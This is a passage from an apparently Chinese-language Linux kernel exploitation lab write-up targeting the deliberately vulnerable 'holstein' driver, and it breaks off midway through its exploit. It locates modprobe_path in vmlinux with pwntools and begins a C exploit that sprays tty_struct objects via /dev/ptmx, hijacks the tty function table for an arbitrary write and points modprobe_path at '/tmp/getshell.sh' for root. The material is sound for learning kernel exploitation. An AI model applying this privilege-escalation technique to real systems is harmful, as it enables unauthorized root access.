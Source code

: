 ```sh
cat kallsyms | grep modprobe_path
```

这个方法来找，但是发现本次实验环境中是没有暴露modprobe_path，所以这里我们需要用到pwntools来完成对vmlinux文件的搜索：

```python
from pwn import *
elf = ELF('./vmlinux')
print(hex(next(elf.search(b'/sbin/modprobe\x00'))))
```

直接通过objdump 等方法搜的话是无法直接找到这个字符串的，所以利用pwntools在vmlinux文件中以字节流的形式来搜。而/sbin/modprobe这个字符串的

最后可以找到这个字符串的所在位置是：0xffffffff81e38180

那么只要利用AAW往这个地址中写入一个提权程序的路径即可，最终一个测试用的exp为：


```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>

#define OPS_OFFSET 0xc38880
#define SPRAY_NUM 100
#define VULN_DRV "/dev/holstein"

uint64_t kernel_base = 0;
uint64_t base = 0xffffffff81000000;
uint64_t g_buf = 0;
int global_fd = 0;
int spray[SPRAY_NUM];
char buf[0x500];
char mal_path[] = "/tmp/getshell.sh\x00";

// uint64_t stack_pivot = 0xffffffff81516264; //no SMEP
uint64_t mov_eax_rdx_ret = 0xffffffff811b7db9;
uint64_t modprobe = 0xffffffff81e38180;

void AAW32(uint64_t rdx, unsigned int rcx) {
  uint64_t *p = (uint64_t *)&buf;
  *(p + 0xc) = mov_eax_rdx_ret - base + kernel_base; // 设置触发任意写的gadget

  *(uint64_t *)&buf[0x418] = g_buf; // 劫持tty_struct的函数表为g_buf
  write(global_fd, buf, 0x420);
  for (int i = 0; i < SPRAY_NUM; i++) {
    ioctl(spray[i], rcx, rdx); // arg1:tty设备 arg2:rcx arg3：rdx
  }
}

int main() {
  for (int i = 0; i < SPRAY_NUM / 2; i++) {
    spray[i] = open("/dev/ptmx", O_RDONLY | O_NOCTTY);
    if (spray[i] == -1)
      perror("open");
  }

  global_fd = open("/dev/holstein", O_RDWR);
  if (global_fd == -1)
    perror("open");

```